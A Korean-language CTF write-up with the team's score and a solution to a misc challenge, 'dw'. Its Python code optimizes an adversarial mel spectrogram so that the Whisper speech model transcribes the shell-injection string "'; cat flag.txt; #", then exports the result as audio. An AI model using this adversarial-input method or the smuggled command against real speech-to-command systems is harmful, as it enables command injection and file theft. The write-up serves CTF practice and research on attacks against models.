

## overall
토요일, 7 6 2025, 14:30 KST — 월요일, 9 6 2025, 02:30 KST
### Team Rank
* 1365 score
* #54 place
### writeup


꿈과 희망 안준다고 시비털고싶지도않음 그냥 ㅇㅅㅇㅋㅋㅋ 되는 타입의 ctf

별개로 좀 멘탈적으로 힘든 시기였어서 (많이는 아니고 ㅇㅇ..원래 연휴끼면 멘탈이 힘들어짐 일을 좀 쳐 해야 정신줄 잡는타입) 시간투자를 잘 못한거같아 아쉬운 것도 있다

### misc
`dw` [논문](https://arxiv.org/pdf/2210.17316) 일단 엄청 재밌는 문제라는건 인정해야겠다. 나는 TTS / mel spectrogram 두 가지 방법으로 접근했는데 .. 지피티가 다 한거긴 하지만 우선 그래도 나는 멜 생성으로 방향을 잡았었다는 점

```
# 🔤 Tokenizer 불러오기 (요거 중요!)
from whisper.tokenizer import get_tokenizer
tokenizer = get_tokenizer(multilingual=model.is_multilingual)

# 목표 문자열 설정
target_text = "'; cat flag.txt; #"
tokens = torch.tensor([tokenizer.encode(target_text)], device=model.device)
print("🎯 Target tokens:", tokens)

# 🎛 멜 스펙트로그램 초기화
mel = torch.randn(1, 80, 3000, requires_grad=True, device=model.device)  # ⬅ 수정됨
optimizer = torch.optim.Adam([mel], lr=1e-2)

# 🔁 최적화 루프
for step in range(500):
    audio_features = model.encoder(mel)
    logits = model.decoder(tokens[:, :-1], audio_features)
    loss = torch.nn.functional.cross_entropy(logits[0], tokens[0, 1:])
    optimizer.zero_grad()
    loss.backward()
    optimizer.step()

    if step % 50 == 0:
        print(f"Step {step}: loss = {loss.item():.4f}")

# 📤 mel 저장
mel_np = mel.detach().cpu().numpy()[0]
np.save("exploit_mel.npy", mel_np)

# 🔁 mel → waveform (Griffin-Lim 사용)
sr = 16000
wav = librosa.feature.inverse.mel_to_audio(mel_np, sr=sr, n_fft=400, hop_length=160, win_length=400)
sf.write("exploit.wav", wav, sr)

# 🎵 mp3 변환
audio = AudioSegment.from_wav("exploit.wav")
audio.export("exploit.mp3", format="mp3")

# 📥 다운로드
from google.colab import files
files.download("exploit.wav")
files.download("exploit.mp3")
files.download("exploit_mel.npy")
```

그렇다면, 실제 논문에 나와있는 익스플로잇과 나의 익스플로잇이 어떻게 다른지? 그리고 내 멜은 스피치 필터를 피해갈 수 없어서 토크나이저의 ';' 를 우회할 수 없었는데 어떻게 이 논문의 [코드](https://github.com/RaphaelOlivier/whisper_attack)는 우회할 수 있었는지.... 는 차차 시간있을때 확인해봐야 할 듯. 